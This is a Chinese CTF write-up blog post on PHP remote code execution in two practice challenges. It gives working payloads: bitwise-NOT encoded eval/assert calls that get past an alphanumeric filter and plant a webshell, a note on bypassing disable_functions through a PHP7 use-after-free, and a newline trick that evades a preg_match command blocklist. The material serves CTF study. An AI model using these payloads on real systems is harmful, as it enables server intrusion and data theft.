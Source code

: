 ```yaml
---
layout: post
title:  RCE
date:   2021-07-22 00:01:01 +0300
image:  2021-07-22-candle.jpg
tags:   [ctf,web,RCE]
---
```


RCE(remote command/code execute)，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。

### [极客大挑战 2019]RCE ME

```assembly
<?php
error_reporting(0);
if(isset($_GET['code'])){
    $code=$_GET['code'];
    if(strlen($code)>40){
        die("This is too Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}
else{
    highlight_file(__FILE__);
}

// ?>
```

过滤了`所有英文字母和数字`，但是我们知道ASCII码中还有很多`字母数字之外的字符`，利用这些字符进行**取反**或**异或**可以得到我们想要的字符

> PS：取ASCII表种非字母数字的其他字符，要注意有些字符可能会影响整个语句执行，所以要去掉如：反引号，单引号

```
<?php
echo urlencode(~"phpinfo");
```

`%8F%97%8F%96%91%99%90`

因为是取反，所以还要再次取反，而且要加分号。

`?code=(~%8F%97%8F%96%91%99%90)();`

在phpinfo查看禁用的系统函数

| Directive         | Local Value                                                  | Master Value                                                 |
| ----------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| disable_functions | pcntl_alarm,<br>pcntl_fork,<br/>pcntl_waitpid,<br/>pcntl_wait,<br/>pcntl_wifexited,<br/>pcntl_wifstopped,<br/>pcntl_wifsignaled,<br/>pcntl_wifcontinued,<br/>pcntl_wexitstatus,<br/>pcntl_wtermsig,<br/>pcntl_wstopsig,<br/>pcntl_signal,<br/>pcntl_signal_get_handler,<br/>pcntl_signal_dispatch,<br/>pcntl_get_last_error,<br/>pcntl_strerror,pcntl_sigprocmask,<br/>pcntl_sigwaitinfo,<br/>pcntl_sigtimedwait,pcntl_exec,<br/>pcntl_getpriority,<br/>pcntl_setpriority,<br/>pcntl_async_signals,<br/>system,exec,<br/>shell_exec,<br/>popen,<br/>proc_open,<br/>passthru,<br/>symlink,link,<br/>syslog,<br/>imap_open,<br/>ld,<br/>dl | pcntl_alarm,<br/>pcntl_fork,<br/>pcntl_waitpid,<br/>pcntl_wait,<br/>pcntl_wifexited,<br/>pcntl_wifstopped,<br/>pcntl_wifsignaled,<br/>pcntl_wifcontinued,<br/>pcntl_wexitstatus,<br/>pcntl_wtermsig,<br/>pcntl_wstopsig,<br/>pcntl_signal,<br/>pcntl_signal_get_handler,<br/>pcntl_signal_dispatch,<br/>pcntl_get_last_error,<br/>pcntl_strerror,<br/>pcntl_sigprocmask,<br/>pcntl_sigwaitinfo,<br/>pcntl_sigtimedwait,<br/>pcntl_exec,<br/>pcntl_getpriority,<br/>pcntl_setpriority,<br/>pcntl_async_signals,<br/>system,<br/>exec,<br/>shell_exec,<br/>popen,<br/>proc_open,<br/>passthru,<br/>symlink,<br/>link,<br/>syslog,<br/>imap_open,<br/>ld,<br/>dl |

构造一个shell连上蚁剑

```assembly
<?php

error_reporting(0);
$a = 'assert';
$b = urlencode(~$a);
echo $b;
echo "\n";
$c = '(eval($_POST[melody]))';
$d = urlencode(~$c);
echo $d;
```

`%9E%8C%8C%9A%8D%8B
%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%92%9A%93%90%9B%86%A2%D6%D6`

`/?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%92%9A%93%90%9B%86%A2%D6%D6);`

连接蚁剑后，看到根目录下存在flag和readflag文件，应该是通过执行readflag来读取flag。但是无法读取flag，考虑到rce，又禁用那么多系统函数。利用PHP7的UAF，通过蚁剑的绕过disable_functions来执行。选择PHP_GC_UAF，点击开始。cd到根目录，执行`./readflag`

flag{3c7b1b32-998c-4bdf-bd3c-9a28ca47ca42}

### [FBCTF2019]RCEService

题目给了源码

```assembly
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

过滤的很严，但是可以绕过preg_match函数本身

第一种方法：因为preg_match只会去匹配第一行，所以这里可以用多行进行绕过

源码中可以看到putenv('PATH=/home/rceservice/jail')已经修改了环境变量，我们只能用绝对路径来调用系统命令

cat命令在/bin中保存

所以构造出payload，%0A是换行符

```assembly
{ %0A"cmd":"/bin/cat /home/rceservice/flag"%0A}
```

不知道为什么不能直接在表单框里输入，要在url中输入。

`?cmd={%0A"cmd":"/bin/cat /home/rceservice/flag"%0A}`

flag{34edc62e-623e-4380-8be6-3252086e72aa}